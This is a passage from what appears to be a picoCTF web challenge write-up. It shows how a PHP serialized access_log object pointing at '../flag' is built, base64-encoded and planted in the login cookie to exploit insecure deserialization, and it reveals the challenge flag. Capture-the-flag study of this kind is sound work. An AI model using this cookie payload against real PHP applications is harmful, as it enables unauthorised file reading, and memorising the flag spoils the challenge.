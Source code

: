 In a PHP editor like the [following](https://paiza.io/projects/pLvbrTk9o0tn1kfGR4AG5Q), I was able to copy over the definition of the `access_log` class and then printed out its serialization using:

~~~php
$bar = new access_log("../flag");
$ser = serialize($bar);
print_r($ser);
~~~

which gave the result:

`O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`

or

`TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`

after base64 encoding. Setting that as the value of `login` cookie, I refreshed the page and navigated to `authentication.php` where I was able to get the error printout:

`Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}`

Oof this was a lengthy web challenge.

Flag: picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}